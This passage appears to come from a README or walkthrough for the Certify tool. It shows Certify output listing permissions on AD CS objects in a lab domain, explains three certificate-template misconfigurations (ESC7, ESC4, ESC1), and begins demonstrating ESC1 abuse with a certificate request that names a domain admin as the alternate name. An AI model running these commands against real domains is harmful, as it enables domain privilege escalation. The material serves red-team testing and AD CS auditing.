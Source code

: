             WriteDacl Principals        : THESHIRE\Domain Admins        S-1-5-21-937929760-3187473010-80948926-512
                                          THESHIRE\Enterprise Admins    S-1-5-21-937929760-3187473010-80948926-519
                                          THESHIRE\localadmin           S-1-5-21-937929760-3187473010-80948926-1000
            WriteProperty Principals    : THESHIRE\Domain Admins        S-1-5-21-937929760-3187473010-80948926-512
                                          THESHIRE\Enterprise Admins    S-1-5-21-937929760-3187473010-80948926-519
                                          THESHIRE\localadmin           S-1-5-21-937929760-3187473010-80948926-1000



    Certify completed in 00:00:00.6548319

Given the above results, we have the three following issues:

1. `THESHIRE\Domain Users` have **ManageCA** permissions over the `dc.theshire.local\theshire-DC-CA` CA (ESC7)
   * This means that the EDITF_ATTRIBUTESUBJECTALTNAME2 flag can be flipped on the CA by anyone.
2. `THESHIRE\Domain Users` have full control over the **User2** template (ESC4)
   * This means that anyone can flip the **CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT** flag on this template and remove the **PEND_ALL_REQUESTS** issuance requirement.
3. `THESHIRE\Domain Users` can enroll in the **VulnTemplate** template, which can be used for client authentication and has ENROLLEE_SUPPLIES_SUBJECT set (ESC1)
   * This allows anyone to enroll in this template and specify an arbitrary Subject Alternative Name (i.e. as a DA).

We'll show the abuse of scenario 3.

Next, let's request a new certificate for this template/CA, specifying a DA `localadmin` as the alternate principal:

    C:\Temp>Certify.exe request /ca:dc.theshire.local\theshire-DC-CA /template:VulnTemplate /altname:localadmin

       _____          _   _  __
      / ____|        | | (_)/ _|
     | |     ___ _ __| |_ _| |_ _   _
     | |    / _ \ '__| __| |  _| | | |
     | |___|  __/ |  | |_| | | | |_| |
      \_____\___|_|   \__|_|_|  \__, |
                                 __/ |
                                |___./
      v1.0.0

    [*] Action: Request a Certificates

    [*] Current user context    : THESHIRE\harmj0y
    [*] No subject name specified, using current context as subject.

    [*] Template                : VulnTemplate
    [*] Subject                 : CN=harmj0y, OU=TestOU, DC=theshire, DC=local
    [*] AltName                 : localadmin

    [*] Certificate Authority   : dc.theshire.local\theshire-DC-CA
